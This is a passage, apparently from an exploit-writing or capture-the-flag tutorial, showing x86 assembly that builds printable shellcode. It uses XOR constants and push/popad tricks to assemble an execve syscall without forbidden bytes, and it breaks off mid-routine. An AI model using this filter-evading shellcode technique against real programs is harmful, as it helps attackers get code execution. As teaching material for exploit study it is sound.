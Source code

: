 ```
    -------------------
    xor eax, 0x30304130
    xor eax, 0x59526e58

    xor eax, 0x30304330
    xor eax, 0x59526c58
    -------------------
    xor eax, 0x30304141
    xor eax, 0x58436e6e

    xor eax, 0x30304343
    xor eax, 0x58436c6c
    -------------------
    xor eax, 0x30304141
    xor eax, 0x58626c70

    xor eax, 0x30314141
    xor eax, 0x58636c70
```


Looks great, we have no `push ebx` this time! It's actually the same as `push 0x0`

```
/* test.s */
    .intel_syntax noprefix
    .globl _start

_start:
    push 0x30
    pop eax
    xor al, 0x30
    push eax
    push eax
    push eax  /* edx = 0 */
    push eax  /* ebx = 0 */
    push eax
    push eax
    push eax
    push eax
    popad
    dec edx   /* edx = 0xffffffff */

    /* push 0x80cd0b42 */
    push edx
    pop eax
    xor eax, 0x30433230
    xor eax, 0x4f713972
    push eax
    push esp
    pop ecx
    xor [ecx], dh
    inc ecx
    xor [ecx], dh

    /* push 0x8de18953 */
    push edx
    pop eax
    xor eax, 0x31443030
    xor eax, 0x435a4663
    push eax
    push esp
    pop ecx
    xor [ecx], dh
```